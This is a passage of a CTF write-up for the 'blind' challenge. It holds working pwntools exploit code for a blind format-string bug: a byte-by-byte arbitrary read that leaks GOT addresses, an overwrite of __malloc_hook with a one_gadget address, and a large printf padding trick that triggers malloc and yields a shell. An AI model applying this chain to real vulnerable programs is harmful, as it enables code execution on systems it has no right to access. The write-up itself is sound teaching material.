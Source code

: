 With this function I have an arbitrary read and I can read printf GOT:  
```py
def arb_read(addr):
    content = b''
    for i in range(8):
        payload  = b'%7$s\x00\x00\x00\x00'
        payload += p64(addr + i)
        p.sendline(payload)
        leaked_byte = p.recvuntil(b'>>> ')[:-4]
        if leaked_byte == b'':
            content += b'\x00'
        else:
            content += leaked_byte[0:1]
    return u64(content)
```
Doing the same with another function, such as read, I obtain two known addresses from libc. Then, with a libc database like this one https://libc.rip/, I can determine that GLIBC 2.27 is being used, exactly the same version as in the challenge of this CTF called SimpleNotes. Therefore, from here, I will use that same libc. This also allows me to compute the libc base.  

## Exploitation
For the exploitation, I will take advantage of the fact that the version of GLIBC is a bit old and malloc hooks can still be used. I will write the address of *one_gadget* to *__malloc_hook*, and when I call malloc, I should get a shell.  
```py
# Overwriting malloc_hook with one_gadget
one_gadget = libc.address + 0x10a2fc
malloc_hook = libc.sym.__malloc_hook

write  = {malloc_hook : one_gadget}
payload  = fmtstr_payload(6, write, write_size='short')
p.sendline(payload)
```
Finally, I just need to call malloc so that it executes *one_gadget*. But how do I call malloc if malloc is not used in the code?  
As explained in the following [post](https://ir0nstone.gitbook.io/notes/binexp/stack/one-gadgets-and-malloc-hook), when printf is called with a sufficiently large amount of bytes, it internally calls malloc. 
```py
# Force call malloc.
payload = b'%100000c'
p.sendlineafter(b'>>>', payload)
```
And with this, I finally get a shell and the flag.  
```
➜  blind ./exploit.py
[*] '/home/elchals/CTFs/IronCTF/blind/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to pwn.1nf1n1ty.team on port 32739: Done
[i] Printf GOT: 0x7fc225735e40
[i] Read GOT: 0x7fc2257e1020
[i] Libc Base: 0x7fc2256d1000
[*] Switching to interactive mode
 $ ls
flag.txt
ld-linux-x86-64.so.2
libc.so.6
run
```